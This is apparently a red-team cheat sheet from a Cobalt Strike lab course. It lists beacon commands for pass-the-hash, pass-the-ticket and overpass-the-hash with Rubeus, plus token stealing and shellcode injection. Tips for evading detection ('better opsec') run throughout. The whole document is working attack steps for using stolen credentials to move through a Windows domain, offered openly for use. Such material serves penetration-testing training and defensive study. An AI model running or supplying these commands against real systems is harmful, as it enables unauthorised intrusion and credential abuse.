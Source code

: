 # User Impersonation

# 1) Pass-the-Hash Attack

    beacon> getuid
    beacon> ls \\web.dev.cyberbotic.io\c$

# PTH using inbuild method in CS (internally uses Mimikatz)

    beacon> pth DEV\jking <hash>

# Find Local Admin Access

    beacon> powerpick Find-LocalAdminAccess

    beacon> rev2self

# 2) Pass-the-Ticket Attack

# Create a sacrificial token with dummy credentials

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123

# Inject the TGT ticket into logon session returned as output of previous command

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

# OR Combine above 2 steps in one

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123 /ticket:doIFuj[...snip...]lDLklP 

    beacon> steal_token 4748

# 3) Overpass-the-Hash

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:<ntlm> /nowrap

# Use aes256 hash for better opsec, along with /domain and /opsec flags (better opsec)

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:<aes256> /domain:DEV /opsec /nowrap

# 4) Token Impersonation and Process Injection

    beacon> steal_token 4464
    beacon> inject 4464 x64 tcp-local
    beacon> shinject /path/to/binary
